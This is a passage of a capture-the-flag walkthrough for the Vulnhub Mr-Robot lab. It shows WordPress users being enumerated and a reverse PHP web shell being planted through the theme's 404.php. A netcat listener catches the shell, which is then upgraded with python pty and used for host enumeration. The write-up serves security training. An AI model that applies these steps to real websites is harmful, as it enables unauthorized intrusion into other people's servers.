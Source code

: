 With valid credentials for WordPress, we can try to setup a reverse webshell with PHP.

![Image](/assets/img/WriteUp/Vulnhub/MrRobot/Pasted image 20230305152536.png){: width="700" height="400" }

Let's enumerate the other users on WordPress.

![Image](/assets/img/WriteUp/Vulnhub/MrRobot/Pasted image 20230305152650.png){: width="700" height="400" }

* Username: mich05654
* Full name: krista Gordon	
* Email: kgordon@therapist.com

Now let's change the 404.php page in the template to setup a PHP reverse web shell.

![Image](/assets/img/WriteUp/Vulnhub/MrRobot/Pasted image 20230305182644.png){: width="700" height="400" }

Click the save button to update the 404.php file.
Start the netcat listener on port 1234.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/MR-Robot]
└─$ nc -lvp 1234  
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```
Visi the 404 page of the theme to activate the PHP reverse web shell.
```URL
http://10.0.2.23/themes/twentyfifteen/404.php
```
Go back to the netcat listener to see if the connection has been established.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/MR-Robot]
└─$ nc -lvp 1234  
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.0.2.23.
Ncat: Connection from 10.0.2.23:49516.
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 18:30:30 up  3:58,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
A connection has been established. Let's see who we are on the system.
```bash
$ whoami;id;hostname;pwd
daemon
uid=1(daemon) gid=1(daemon) groups=1(daemon)
linux
/
$ 

```
Now upgrade the shell a little bit.
```bash
$ python -c 'import pty;pty.spawn("/bin/bash")'
daemon@linux:/$ 

```
Since we have a reverse shell, let's start enumerating what Linux distro is used on the system. We start with enumerating the kernel version.
```bash
daemon@linux:/$ uname -a
uname -a
```